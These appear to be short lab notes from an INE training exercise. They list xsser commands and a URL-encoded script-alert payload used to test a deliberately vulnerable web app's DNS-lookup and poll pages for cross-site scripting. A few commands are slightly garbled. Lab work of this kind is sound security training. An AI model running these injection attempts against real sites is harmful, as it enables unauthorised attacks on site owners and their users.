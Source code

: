 

- http://192.94.37.3/index.php?page=dns-lookup.php
- xsser
- xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
- xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
- xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "PUT YOUR  ALERT COMMAND"

we can copy and paste payload in burp repeater 

http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=jd&user-poll-php-submit-button=Submit+Vote


- xsser --url “http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote”

- xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-po ll-php-submit-button=Submit+Vote" --Fp ""'

- http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281 %29%3C%2Fscript%3E&initials=jd&user-poll-php-submit-button=Submit+Vote



https://assets.ine.com/labs/ad-manuals/walkthrough-1889.pdf